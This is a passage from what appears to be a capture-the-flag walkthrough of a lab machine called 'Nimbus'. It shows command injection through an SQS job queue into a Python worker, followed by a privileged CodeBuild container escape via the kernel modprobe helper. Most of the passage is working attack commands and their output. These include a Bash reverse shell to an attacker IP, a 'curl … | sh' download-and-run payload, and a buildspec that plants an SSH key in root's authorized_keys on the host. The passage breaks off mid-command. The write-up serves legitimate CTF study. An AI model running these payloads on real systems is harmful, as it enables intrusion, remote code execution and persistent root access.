The role was not allowed to receive messages from the queue, which meant the worker side could not be observed directly from this credential context.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs receive-message --queue-url "http://aws.nimbus.htb/847219365028/nimbus-jobs" --endpoint-url http://aws.nimbus.htb --region us-east-1 --max-number-of-messages 10

An error occurred (403) when calling the ReceiveMessage operation: <ErrorResponse xmlns="https://sts.amazonaws.com/doc/2011-06-15/">
  <Error>
    <Type>Sender</Type>
    <Code>AccessDenied</Code>
    <Message>User: arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a is not authorized to perform: sqs:ReceiveMessage on resource: nimbus-jobs</Message>
  </Error>
  <RequestId>x5660007-amv4-16e6-21r0-8b01j71af982</RequestId>
</ErrorResponse>
```

Sending messages, however, was allowed. We first submitted a harmless probe job matching the expected schema.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs send-message --queue-url "http://aws.nimbus.htb/847219365028/nimbus-jobs" --message-body '{"name":"probe-job","schedule":"*/5 * * * *","runtime":"python3.11"}' --endpoint-url http://aws.nimbus.htb --region us-east-1
{
    "MD5OfMessageBody": "701c7e9010c2098af9b9a8feb30796fa",
    "MessageId": "9e80e54c-3953-468f-8754-d5dbebe8519e"
}
```

To verify whether the worker executed the submitted `script` field, we sent another message that made a simple HTTP callback to our attack box.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs send-message --queue-url "http://aws.nimbus.htb/847219365028/nimbus-jobs" --message-body '{"name":"probe-callback","schedule":"*/5 * * * *","runtime":"python3.11","script":"import urllib.request; urllib.request.urlopen(\"http://10.10.16.63:8000/callback-probe\")"}' --endpoint-url http://aws.nimbus.htb --region us-east-1
{
    "MD5OfMessageBody": "0f542c24663f0f3d3d5a52c9bdae447b",
    "MessageId": "34506a4d-bfe0-42cc-affa-68e865e80d29"
}
```

The callback was confirmed with `tcpdump`, proving that the backend worker executed Python code supplied through the queue message.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp or port 80 or port 443 -n
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:51:59.256347 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [S], seq 616959021, win 64240, options [mss 1460,sackOK,TS val 1463501 ecr 0,nop,wscale 10], length 0
21:51:59.269235 IP 10.129.26.24.80 > 10.10.16.63.47206: Flags [S.], seq 2940066079, ack 616959022, win 65160, options [mss 1346,sackOK,TS val 1622840525 ecr 1463501,nop,wscale 7], length 0
21:51:59.269263 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [.], ack 1, win 63, options [nop,nop,TS val 1463514 ecr 1622840525], length 0
21:51:59.269380 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [P.], seq 1:1134, ack 1, win 63, options [nop,nop,TS val 1463514 ecr 1622840525], length 1133: HTTP: POST / HTTP/1.1
21:51:59.269413 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [P.], seq 1134:1409, ack 1, win 63, options [nop,nop,TS val 1463514 ecr 1622840525], length 275: HTTP
21:51:59.281544 IP 10.129.26.24.80 > 10.10.16.63.47206: Flags [.], ack 1134, win 524, options [nop,nop,TS val 1622840537 ecr 1463514], length 0
21:51:59.336955 IP 10.129.26.24.80 > 10.10.16.63.47206: Flags [.], ack 1409, win 524, options [nop,nop,TS val 1622840549 ecr 1463514], length 0
21:51:59.336983 IP 10.129.26.24.80 > 10.10.16.63.47206: Flags [P.], seq 1:457, ack 1409, win 524, options [nop,nop,TS val 1622840556 ecr 1463514], length 456: HTTP: HTTP/1.1 200 OK
21:51:59.336998 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [.], ack 457, win 63, options [nop,nop,TS val 1463581 ecr 1622840556], length 0
21:51:59.340195 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [F.], seq 1409, ack 457, win 63, options [nop,nop,TS val 1463585 ecr 1622840556], length 0
21:51:59.360871 IP 10.129.26.24.80 > 10.10.16.63.47206: Flags [F.], seq 457, ack 1410, win 524, options [nop,nop,TS val 1622840617 ecr 1463585], length 0
21:51:59.360898 IP 10.10.16.63.47206 > 10.129.26.24.80: Flags [.], ack 458, win 63, options [nop,nop,TS val 1463605 ecr 1622840617], length 0
```

With code execution confirmed, we staged a small shell script that started a Bash reverse shell back to our machine.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Nimbus/serve]
└─$ cat x
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.63/9001 0>&1'
```

The final queue message downloaded and executed the staged shell script through the vulnerable worker.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs send-message --queue-url "http://aws.nimbus.htb/847219365028/nimbus-jobs" --message-body '{"name":"shell","script":"import os;os.system(\"curl 10.10.16.63/x|sh\")"}' --endpoint-url http://aws.nimbus.htb --region us-east-1
{
    "MD5OfMessageBody": "657de6d4b7a4a5ed73c4d97e9445a747",
    "MessageId": "5df85adb-547a-4668-88ea-0ee1298f34fb"
}
```

Our listener caught the reverse shell as the `worker` user inside a container.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.63] from (UNKNOWN) [10.129.26.24] 53788
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
worker@d5bd6791686a:/app$
```

Before continuing with enumeration, we upgraded the shell to a more usable interactive TTY.

```shell
worker@d5bd6791686a:/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'              
python3 -c 'import pty;pty.spawn("/bin/bash")'
worker@d5bd6791686a:/app$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

worker@d5bd6791686a:/app$ 
worker@d5bd6791686a:/app$ export XTERM=xterm
worker@d5bd6791686a:/app$
worker@d5bd6791686a:/app$ stty rows 50 columns 400
```

## Enumeration (worker)

The shell landed inside the worker container. The initial local enumeration confirmed that we were running as the unprivileged `worker` user.

```shell
worker@d5bd6791686a:/app$ id
uid=1000(worker) gid=1000(worker) groups=1000(worker)
```

```shell
worker@d5bd6791686a:/app$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
worker:x:1000:1000::/home/worker:/bin/bash
```

## user.txt

The user flag was located in the home directory of the `worker` user.

```shell
worker@d5bd6791686a:/$ cd ~
```

```shell
worker@d5bd6791686a:~$ cat user.txt 
56220eb536213ce49cdc4c287bcc6a9c
```

## Privilege Escalation to root

### Privileged CodeBuild Container Escape via modprobe Usermode Helper

The presence of `/.dockerenv` confirmed that the initial shell was running inside a container. Therefore the next objective was to identify whether this container had access to any internal cloud services or privileged build functionality that could be abused to reach the host.

```shell
worker@d5bd6791686a:~$ ls -la /
total 64
drwxr-xr-x   1 root   root 4096 Jun 20 19:11 .
drwxr-xr-x   1 root   root 4096 Jun 20 19:11 ..
-rwxr-xr-x   1 root   root    0 Jun 20 19:02 .dockerenv
drwxr-xr-x   1 worker root 4096 May 18 18:25 app
lrwxrwxrwx   1 root   root    7 Mar  2 21:50 bin -> usr/bin
drwxr-xr-x   2 root   root 4096 Mar  2 21:50 boot
drwxr-xr-x   5 root   root  340 Jun 20 19:02 dev
drwxr-xr-x   1 root   root 4096 Jun 20 19:02 etc
drwxr-xr-x   1 root   root 4096 May 18 18:25 home
lrwxrwxrwx   1 root   root    7 Mar  2 21:50 lib -> usr/lib
lrwxrwxrwx   1 root   root    9 Mar  2 21:50 lib64 -> usr/lib64
drwxr-xr-x   2 root   root 4096 May  5 00:00 media
drwxr-xr-x   2 root   root 4096 May  5 00:00 mnt
drwxr-xr-x   2 root   root 4096 May  5 00:00 opt
dr-xr-xr-x 272 root   root    0 Jun 20 19:02 proc
drwx------   1 root   root 4096 May  8 20:06 root
drwxr-xr-x   1 root   root 4096 May 18 18:24 run
lrwxrwxrwx   1 root   root    8 Mar  2 21:50 sbin -> usr/sbin
drwxr-xr-x   2 root   root 4096 May  5 00:00 srv
dr-xr-xr-x  13 root   root    0 Jun 20 19:02 sys
drwxrwxrwt   2 root   root 4096 May  5 00:00 tmp
drwxr-xr-x   1 root   root 4096 May  5 00:00 usr
drwxr-xr-x   1 root   root 4096 May  5 00:00 var
```

The hostname `floci` resolved internally and exposed a cloud-compatible endpoint. A direct request showed an `S3` bucket called `nimbus-dev-artifacts`.

```shell
worker@d5bd6791686a:~$ curl -s http://floci:4566/ | head -20
<?xml version="1.0" encoding="UTF-8"?><ListAllMyBucketsResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Owner><ID>owner</ID><DisplayName>owner</DisplayName></Owner><Buckets><Bucket><Name>nimbus-dev-artifacts</Name><CreationDate>2026-06-20T19:02:26.209071004Z</CreationDate></Bucket></Buckets></ListAllMyBucketsResult>
```

We enumerated the bucket and found a `source/` prefix.

```shell
worker@d5bd6791686a:~$ aws s3 ls s3://nimbus-dev-artifacts --endpoint-url http://floci:4566/ --region us-east-1                            
                           PRE source/
```

```shell
worker@d5bd6791686a:~$ aws s3 ls s3://nimbus-dev-artifacts/source/ --endpoint-url http://floci:4566/ --region us-east-1
2026-06-20 19:02:27       1755 worker.py
```

The available artifacts were copied locally for inspection.

```shell
worker@d5bd6791686a:~$ aws s3 cp s3://nimbus-dev-artifacts/ /tmp/artifacts --recursive --endpoint-url http://floci:4566/ --region us-east-1
download: s3://nimbus-dev-artifacts/source/worker.py to ../../tmp/artifacts/source/worker.py
```

The worker source code confirmed the vulnerability chain. Messages were received from `SQS`, parsed using `yaml.load`, and the `script` value was executed with `python3 -c`.

```shell
worker@d5bd6791686a:~$ cat /tmp/artifacts/source/worker.py
"""Nimbus job worker"""
import os, time, subprocess, boto3, yaml

ENDPOINT  = os.environ.get("AWS_ENDPOINT_URL", "http://aws.nimbus.htb")
QUEUE_URL = os.environ.get("QUEUE_URL", "http://aws.nimbus.htb/847219365028/nimbus-jobs")
REGION    = os.environ.get("AWS_DEFAULT_REGION", "us-east-1")
POLL_SECS = 5

print(f"[worker] starting; endpoint={ENDPOINT} queue={QUEUE_URL}", flush=True)
sqs = boto3.client("sqs", endpoint_url=ENDPOINT, region_name=REGION)

def handle_message(body):
    print(f"[worker] received message ({len(body)} bytes)", flush=True)
    job = yaml.load(body, Loader=yaml.Loader)
    if not isinstance(job, dict):
        print("[worker] message did not parse to a dict, skipping", flush=True)
        return
    name = job.get("name", "<unnamed>")
    script = job.get("script", "")
    print(f"[worker] running job '{name}'", flush=True)
    if script:
        result = subprocess.run(["python3", "-c", script],
            capture_output=True, text=True, timeout=30)
        print(f"[worker] stdout: {result.stdout}", flush=True)
        if result.stderr: print(f"[worker] stderr: {result.stderr}", flush=True)

def main():
    while True:
        try:
            resp = sqs.receive_message(QueueUrl=QUEUE_URL,
                MaxNumberOfMessages=1, WaitTimeSeconds=POLL_SECS)
            for m in resp.get("Messages", []):
                try: handle_message(m["Body"])
                except Exception as e: print(f"[worker] error: {e}", flush=True)
                finally:
                    sqs.delete_message(QueueUrl=QUEUE_URL, ReceiptHandle=m["ReceiptHandle"])
        except Exception as e:
            print(f"[worker] poll error: {e}", flush=True)
            time.sleep(POLL_SECS)

if __name__ == "__main__":
    main()
```

The internal `Floci` health endpoint exposed a large set of running services, including `S3`, `SQS`, `IAM`, and `CodeBuild`. The presence of `CodeBuild` was especially interesting because privileged build containers are a common path to container escape when misconfigured.

```shell
worker@d5bd6791686a:~$ curl -s http://floci:4566/health
{"edition":"community","services":{"ssm":"running","sqs":"running","s3":"running","dynamodb":"running","sns":"running","lambda":"running","apigateway":"running","iam":"running","kafka":"running","elasticache":"running","rds":"running","neptune":"running","events":"running","scheduler":"running","logs":"running","monitoring":"running","secretsmanager":"running","apigatewayv2":"running","kinesis":"running","kms":"running","cognito-idp":"running","states":"running","cloudformation":"running","acm":"running","athena":"running","glue":"running","firehose":"running","email":"running","es":"running","ec2":"running","ecs":"running","appconfig":"running","appconfigdata":"running","ecr":"running","tagging":"running","bedrock-runtime":"running","eks":"running","pipes":"running","elasticloadbalancing":"running","codebuild":"running","codedeploy":"running","autoscaling":"running","backup":"running","transfer":"running","route53":"running","textract":"running","pricing":"running","transcribe":"running","ce":"running","cur":"running","bcm-data-exports":"running"},"version":"1.5.17","original_edition":"floci-always-free"}
```

There were no existing `CodeBuild` projects, but the important question was whether the current credentials were able to create one.

Enumeration of the internal cloud environment uncovered support for `CodeBuild`, a service designed to execute user-controlled build jobs inside ephemeral containers. Unlike the compromised worker container, new build projects could be created with `privilegedMode` enabled.

Privileged containers expose a substantially larger attack surface because they interact more directly with the host kernel. For that reason, the next objective was to determine whether the build environment exposed information that could be leveraged to escape the container boundary and interact with the underlying host.

```shell
worker@d5bd6791686a:~$ aws codebuild list-projects --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "projects": []
}
```

Based on the available `CodeBuild` API and the internal IAM role name, we tested whether a new project could be created with `privilegedMode` enabled.

- [https://xcellerator.github.io/posts/docker_escape/](https://xcellerator.github.io/posts/docker_escape/)

```shell
aws codebuild create-project \
  --name escape \
  --source '{"type":"NO_SOURCE","buildspec":"version: 0.2\nphases:\n  build:\n    commands:\n      - id\n"}' \
  --artifacts '{"type":"NO_ARTIFACTS"}' \
  --environment '{"type":"LINUX_CONTAINER","image":"floci/floci:latest","computeType":"BUILD_GENERAL1_SMALL","privilegedMode":true}' \
  --service-role "arn:aws:iam::847219365028:role/nimbus-worker-role" \
  --endpoint-url http://floci:4566 --region us-east-1
```

```shell      
worker@d5bd6791686a:/app$ aws codebuild create-project \
>   --name escape \      
>   --source '{"type":"NO_SOURCE","buildspec":"version: 0.2\nphases:\n  build:\n    commands:\n      - id\n"}' \        
>   --artifacts '{"type":"NO_ARTIFACTS"}' \             
>   --environment '{"type":"LINUX_CONTAINER","image":"floci/floci:latest","computeType":"BUILD_GENERAL1_SMALL","privilegedMode":true}' \
>   --service-role "arn:aws:iam::847219365028:role/nimbus-worker-role" \
>   --endpoint-url http://floci:4566 --region us-east-1 
WARNING: terminal is not fully functional 
Press RETURN to continue 
{       
    "project": {         
        "name": "escape",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:project/escape",                
        "source": {      
            "type": "NO_SOURCE",          
            "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - id\n"  
        },               
        "artifacts": {   
            "type": "NO_ARTIFACTS"        
        },               
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "privilegedMode": true
        },
        "serviceRole": "arn:aws:iam::847219365028:role/nimbus-worker-role",
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "created": "2026-06-21T11:10:59.521000+00:00",
        "lastModified": "2026-06-21T11:10:59.521000+00:00",
        "projectVisibility": "PRIVATE"
    }
}
```

#### Enumeration

After confirming that privileged `CodeBuild` projects could be created, the next step was to understand how the build container filesystem mapped back to the host. For this, we created a build that printed the overlay mount information and then exited with an error so the output appeared in the build status context.

- [https://hacktricks.wiki/en/linux-hardening/privilege-escalation/container-security/sensitive-host-mounts.html](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/container-security/sensitive-host-mounts.html)

First we prepared a minimal `buildspec.yml` to print the overlay mount entry.

The final stage relied on the Linux `modprobe` usermode helper mechanism. Whenever the kernel encounters an unknown binary format, it may invoke the helper specified in `/proc/sys/kernel/modprobe` in an attempt to load a supporting kernel module.

Because the build container was running in privileged mode, it was possible to modify this kernel parameter. Instead of pointing it towards the default helper, the value was overwritten with a custom payload located inside the OverlayFS upper layer. Triggering execution of an invalid binary caused the kernel to invoke the attacker-controlled helper as `root` on the host.

Rather than spawning an interactive shell directly, the payload appended an SSH public key to `/root/.ssh/authorized_keys`. This approach provided a reliable and repeatable method of obtaining root access while avoiding issues commonly associated with transient build containers.

```shell
cat > /tmp/buildspec.yml << 'EOF'
version: 0.2
phases:
  build:
    commands:
      - cat /proc/mounts | grep overlay
      - exit 1
EOF
```

```shell
worker@d5bd6791686a:/tmp$ cat > /tmp/buildspec.yml << 'EOF'
> version: 0.2
> phases:
>   build:
>     commands:
>       - cat /proc/mounts | grep overlay
>       - exit 1
> EOF
```

The build configuration was then wrapped into a `CodeBuild` project definition with `privilegedMode` enabled.

```shell
cat > /tmp/source.json << 'EOF'
{
  "name": "enum-overlay",
  "source": {
    "type": "NO_SOURCE",
    "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - cat /proc/mounts | grep overlay\n      - exit 1\n"
  },
  "artifacts": {
    "type": "NO_ARTIFACTS"
  },
  "environment": {
    "type": "LINUX_CONTAINER",
    "image": "floci/floci:latest",
    "computeType": "BUILD_GENERAL1_SMALL",
    "privilegedMode": true,
    "environmentVariables": [
      {
        "name": "BASH_FUNC_id%%",
        "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
        "type": "PLAINTEXT"
      }
    ]
  },
  "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role"
}
EOF
```

```shell
worker@d5bd6791686a:/tmp$ cat > /tmp/source.json << 'EOF'
> {
>   "name": "enum-overlay",
>   "source": {
>     "type": "NO_SOURCE",
>     "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - cat /proc/mounts | grep overlay\n      - exit 1\n"
>   },
>   "artifacts": {
>     "type": "NO_ARTIFACTS"
>   },
>   "environment": {
>     "type": "LINUX_CONTAINER",
>     "image": "floci/floci:latest",
>     "computeType": "BUILD_GENERAL1_SMALL",
>     "privilegedMode": true,
>     "environmentVariables": [
>       {
>         "name": "BASH_FUNC_id%%",
>         "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
>         "type": "PLAINTEXT"
>       }
>     ]
>   },
>   "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role"
> }
> EOF
```

The enumeration project was created through the internal `CodeBuild` endpoint.

```shell
aws codebuild create-project --cli-input-json file:///tmp/source.json \
  --endpoint-url http://floci:4566 --region us-east-1
```

```shell
worker@d5bd6791686a:/tmp$ aws codebuild create-project --cli-input-json file:///tmp/source.json \
>   --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "project": {
        "name": "enum-overlay",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:project/enum-overlay",
        "source": {
            "type": "NO_SOURCE",
            "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - cat /proc/mounts | grep overlay\n      - exit 1\n"
        },
        "artifacts": {
            "type": "NO_ARTIFACTS"
        },
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "environmentVariables": [
                {
                    "name": "BASH_FUNC_id%%",
                    "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
                    "type": "PLAINTEXT"
                }
            ],
            "privilegedMode": true
        },
        "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role",
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "created": "2026-06-22T15:43:25.022000+00:00",
        "lastModified": "2026-06-22T15:43:25.022000+00:00",
        "projectVisibility": "PRIVATE"
    }
}
```

After creating the project, we started the build.

```shell
aws codebuild start-build --project-name enum-overlay \
  --endpoint-url http://floci:4566 --region us-east-1
```

```shell
worker@d5bd6791686a:/tmp$ aws codebuild start-build --project-name enum-overlay \
>   --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "build": {
        "id": "enum-overlay:1",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:build/enum-overlay:1",
        "buildNumber": 1,
        "startTime": "2026-06-22T15:43:32.129000+00:00",
        "currentPhase": "PROVISIONING",
        "buildStatus": "IN_PROGRESS",
        "projectName": "enum-overlay",
        "phases": [
            {
                "phaseType": "SUBMITTED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T15:43:32.129000+00:00",
                "endTime": "2026-06-22T15:43:32.130000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "QUEUED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T15:43:32.130000+00:00",
                "endTime": "2026-06-22T15:43:32.130000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "PROVISIONING",
                "phaseStatus": "IN_PROGRESS",
                "startTime": "2026-06-22T15:43:32.130000+00:00"
            }
        ],
        "source": {
            "type": "NO_SOURCE",
            "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - cat /proc/mounts | grep overlay\n      - exit 1\n"
        },
        "artifacts": {},
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "environmentVariables": [
                {
                    "name": "BASH_FUNC_id%%",
                    "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
                    "type": "PLAINTEXT"
                }
            ],
            "privilegedMode": true
        },
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "buildComplete": false,
        "initiator": "user"
    }
}
```

Once the build finished, we queried the build details to recover the failed command output from the build context.

```shell
aws codebuild batch-get-builds --ids enum-overlay:1 \
  --endpoint-url http://floci:4566 --region us-east-1
```

```shell
worker@d5bd6791686a:/tmp$ aws codebuild batch-get-builds --ids enum-overlay:1 \
>   --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "builds": [
        {
            "id": "enum-overlay:1",
            "arn": "arn:aws:codebuild:us-east-1:847219365028:build/enum-overlay:1",
            "buildNumber": 1,
            "startTime": "2026-06-22T15:43:32.129000+00:00",
            "endTime": "2026-06-22T15:43:32.960000+00:00",
            "currentPhase": "COMPLETED",
            "buildStatus": "FAILED",
            "projectName": "enum-overlay",
            "phases": [
                {
                    "phaseType": "SUBMITTED",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.129000+00:00",
                    "endTime": "2026-06-22T15:43:32.130000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "QUEUED",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.130000+00:00",
                    "endTime": "2026-06-22T15:43:32.130000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "PROVISIONING",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.130000+00:00",
                    "endTime": "2026-06-22T15:43:32.130000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "DOWNLOAD_SOURCE",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.130000+00:00",
                    "endTime": "2026-06-22T15:43:32.131000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "INSTALL",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.838000+00:00",
                    "endTime": "2026-06-22T15:43:32.838000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "PRE_BUILD",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.838000+00:00",
                    "endTime": "2026-06-22T15:43:32.838000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "BUILD",
                    "phaseStatus": "FAILED",
                    "startTime": "2026-06-22T15:43:32.838000+00:00",
                    "endTime": "2026-06-22T15:43:32.928000+00:00",
                    "durationInSeconds": 0,
                    "contexts": [
                        {
                            "statusCode": "COMMAND_EXECUTION_ERROR",
                            "message": "Exit code 1: .v1.overlayfs/snapshots/5/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/4/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/3/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/2/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1/fs,upperdir=/var/lib/cont
ainerd/io.containerd.snapshotter.v1.overlayfs/snapshots/172/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/172/work,nouserxattr 0 0"
                        }
                    ]
                },
                {
                    "phaseType": "POST_BUILD",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.928000+00:00",
                    "endTime": "2026-06-22T15:43:32.928000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "UPLOAD_ARTIFACTS",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.928000+00:00",
                    "endTime": "2026-06-22T15:43:32.960000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "FINALIZING",
                    "phaseStatus": "SUCCEEDED",
                    "startTime": "2026-06-22T15:43:32.960000+00:00",
                    "endTime": "2026-06-22T15:43:32.960000+00:00",
                    "durationInSeconds": 0
                },
                {
                    "phaseType": "COMPLETED",
                    "phaseStatus": "FAILED",
                    "startTime": "2026-06-22T15:43:32.960000+00:00",
                    "endTime": "2026-06-22T15:43:32.960000+00:00",
                    "durationInSeconds": 0
                }
            ],
            "source": {
                "type": "NO_SOURCE",
                "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - cat /proc/mounts | grep overlay\n      - exit 1\n"
            },
            "artifacts": {},
            "environment": {
                "type": "LINUX_CONTAINER",
                "image": "floci/floci:latest",
                "computeType": "BUILD_GENERAL1_SMALL",
                "environmentVariables": [
                    {
                        "name": "BASH_FUNC_id%%",
                        "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
                        "type": "PLAINTEXT"
                    }
                ],
                "privilegedMode": true
            },
            "logs": {
                "groupName": "/aws/codebuild/enum-overlay",
                "streamName": "2026/06/22/enum-overlay/1",
                "cloudWatchLogsArn": "arn:aws:logs:us-east-1:847219365028:log-group:/aws/codebuild/enum-overlay:log-stream:2026/06/22/enum-overlay/1"
            },
            "timeoutInMinutes": 60,
            "queuedTimeoutInMinutes": 480,
            "buildComplete": true,
            "initiator": "user"
        }
    ],
    "buildsNotFound": []
}
```

The overlay output exposed the host-side `upperdir` path for the build container. This was necessary for the `modprobe` technique because the kernel executes the helper from the host mount namespace, not from the container path.

```shell
overlay / overlay rw,relatime,...,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/172/fs,workdir=...,nouserxattr 0 0
```

The OverlayFS output provided more than just filesystem information. Of particular interest was the `upperdir` parameter because it identified the writable layer associated with the running build container.

Files written to this location remain visible from the host's perspective. Since the build environment was running with `privilegedMode` enabled, this opened the possibility of interacting with host-level functionality rather than remaining confined to the container itself.

Instead of pursuing a traditional container breakout, the focus shifted towards identifying kernel functionality that could be redirected towards files stored inside the discovered OverlayFS layer. One suitable candidate was the Linux `modprobe` usermode helper mechanism.

Whenever the kernel encounters an unknown binary format, it attempts to invoke the helper configured in `/proc/sys/kernel/modprobe`. Because the build container was running in privileged mode, this value could be overwritten and pointed towards an attacker-controlled payload stored inside the OverlayFS upper layer.

Triggering execution of an invalid binary would then cause the kernel to invoke the configured helper as `root` on the underlying host, providing a path to host-level code execution.

#### Execution

The final escape abused the Linux `modprobe` usermode helper. When an unknown binary format is executed, the kernel can call the configured helper from `/proc/sys/kernel/modprobe`. In a privileged container, this value can be overwritten. By pointing it to a payload script through the host overlay path and then executing an invalid binary, the payload runs as `root` on the host.

- [https://sam4k.com/like-techniques-modprobe_path/](https://sam4k.com/like-techniques-modprobe_path/)
- [https://jasonstitt.com/codebuild-docker-as-a-service](https://jasonstitt.com/codebuild-docker-as-a-service)

The exploit itself consisted of three distinct steps.

First, the writable OverlayFS layer was extracted from `/proc/mounts`:

```shell
upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)
```

This path represented the location from which the host would later execute the payload.

Next, the `modprobe` helper was redirected towards the payload stored inside the OverlayFS upper layer:

```shell
echo "$upper/tmp/payload.sh" > /proc/sys/kernel/modprobe
```

Under normal circumstances this value points to `/sbin/modprobe`. Overwriting it caused the kernel to execute the supplied payload whenever the helper mechanism was triggered.

The final step generated a deliberately invalid executable:

```shell
printf '\xff\xff\xff\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x
```

Since the file did not contain a valid executable format, the kernel failed to identify the binary type and invoked the helper configured through `/proc/sys/kernel/modprobe`. Because the helper now pointed to the attacker-controlled payload, the payload executed as `root` on the underlying host and added an SSH public key to `/root/.ssh/authorized_keys`.

The payload created `/root/.ssh/authorized_keys` on the host and added our `SSH public key`.

```shell
cat > /tmp/buildspec.yml << 'EOF'
version: 0.2
phases:
  build:
    commands:
      - |
        cat > /tmp/payload.sh << 'PAYLOAD'
        #!/bin/sh
        mkdir -p /root/.ssh
        echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /root/.ssh/authorized_keys
        chmod 700 /root/.ssh
        chmod 600 /root/.ssh/authorized_keys
        PAYLOAD
      - chmod +x /tmp/payload.sh
      - |
        upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)
        echo "$upper/tmp/payload.sh" > /proc/sys/kernel/modprobe
      - printf '\xff\xff\xff\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true
EOF
```

```shell
worker@d5bd6791686a:/tmp$ cat > /tmp/buildspec.yml << 'EOF'
> version: 0.2
> phases:
>   build:
>     commands:
>       - |
>         cat > /tmp/payload.sh << 'PAYLOAD'
>         #!/bin/sh
>         mkdir -p /root/.ssh
